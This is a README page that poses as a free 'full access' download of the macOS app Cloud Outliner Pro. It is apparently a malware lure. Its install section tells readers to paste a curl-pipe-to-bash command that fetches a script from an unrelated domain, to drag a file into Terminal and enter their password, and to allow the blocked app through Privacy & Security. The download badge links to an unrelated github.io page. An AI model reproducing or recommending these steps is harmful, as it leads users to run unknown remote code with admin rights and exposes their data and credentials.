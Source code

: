 <p align="center">
  <img src="https://i.ibb.co/9ksjt7nF/1619105403-cloudoutliner-logo.png" alt="Cloud Outliner Pro macOS Banner" />
</p>

<h1 align="center">Cloud Outliner Pro for macOS</h1>

<p align="center">
  📝 Create structured, collapsible outlines for notes, tasks, and ideas — with iCloud & Evernote sync.  
  <br><br>
  ✅ Native Apple Silicon Support  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/211" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20CLOUD%20OUTLINER%20PRO%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Cloud Outliner Pro for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/7dk8Qp05/1619105829-cloudoutliner-screenshot-1-min.png" alt="Cloud Outliner macOS UI Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Cloud Outliner Pro for macOS?

**Cloud Outliner Pro for macOS** is a focused outliner and productivity tool that helps you structure your ideas, tasks, and lists into clean, collapsible outlines. It’s ideal for note-taking, project planning, and personal organization — all with full support for iCloud and Evernote syncing.

The intuitive interface allows quick editing with drag-and-drop reordering, checkboxes, color tags, and nesting. You can access your outlines across devices, or work fully offline in private mode.

Whether you're a student, writer, developer, or executive — Cloud Outliner Pro helps you turn messy thoughts into structured action plans.

---

## ✅ Why Choose Cloud Outliner Pro?

- 🗂️ **Collapsible Outlines & Hierarchies**  
- ☁️ **iCloud and Evernote Sync Options**  
- ✅ **Checklists and Bullet Modes**  
- 🖍️ **Color Coding and Tags for Context**  
- ⌨️ **Keyboard Shortcuts & Markdown Support**  
- 📱 **Cross-Device Editing (macOS & iOS)**  
- 🍎 **Apple Silicon Native (M1/M2/M3)**  
- 🛠️ **Works Fully Offline if Needed**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/pvBzdF6Q/1619105850-cloudoutliner-screenshot-2-min.png" alt="Collapsible Outline View Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/G3MWX1fS/1619105873-cloudoutliner-screenshot-3-min.png" alt="Task Organization with Tags Cloud Outliner" />
</p>

---

## 🚀 Key Features

- Fast outliner for tasks, thoughts, and plans  
- Drag-and-drop item reordering  
- Outline templates and export options  
- Built-in sync with iCloud and Evernote  
- Full keyboard control for writing flow  
- Tagging and checkbox modes  
- Local storage or cloud sync  
- Minimal UI with dark mode support

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Cloud Outliner manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Outline+Editor+%2F+Task+Manager-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Hierarchical+Notes+%26+Sync-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Cloud Outliner – Think in Structure

Thanks for using **Cloud Outliner Pro for macOS**.  
From brain-dump to blueprint — instantly.

---

## 🧭 Usage Context

This app is intended for individual planning, outlining, and idea structuring.  
It stores your data locally or syncs to iCloud/Evernote by choice.

No telemetry. No forced sync. Just clean outliners — your way.

---

## 🔍 Tags

```text
cloud outliner pro for mac download, hierarchical outliner macos, icloud synced task outliner mac, cloud outliner full version macbook, write collapsible notes mac app, outline based todo tool macbook pro, structured task planner for mac m1, markdown supported outline editor mac, cloud outliner pro apple silicon mac, drag and drop outliner macos, project plan outliner for mac, note organizer with sync mac, evernote linked outliner tool mac, cross device outliner app mac, best outline based task manager mac
